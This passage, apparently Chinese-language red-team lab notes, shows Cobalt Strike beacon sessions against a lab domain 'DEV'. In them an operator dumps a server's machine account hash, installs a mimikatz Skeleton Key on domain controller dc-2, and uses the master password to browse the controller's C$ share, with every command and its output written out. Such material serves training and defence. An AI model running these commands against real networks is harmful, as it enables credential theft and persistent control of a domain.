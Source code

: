 DEV\bfarmer访问srv-2
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv-2

ComputerName MachineAccountHash              
------------ ------------------              
srv-2        5d0d485386727a8a92498a2c188627ec
```

# Skeleton Key

万能钥匙

制作万能钥匙
```
beacon> run hostname
dc-2

beacon> mimikatz !misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```

使用万能钥匙密码```mimikatz```访问域控
```
beacon> make_token DEV\Administrator mimikatz
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/10/2021 14:38:44   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/10/2021 13:52:03   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     03/11/2021 12:59:29   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     03/11/2021 09:19:53   pagefile.sys
```

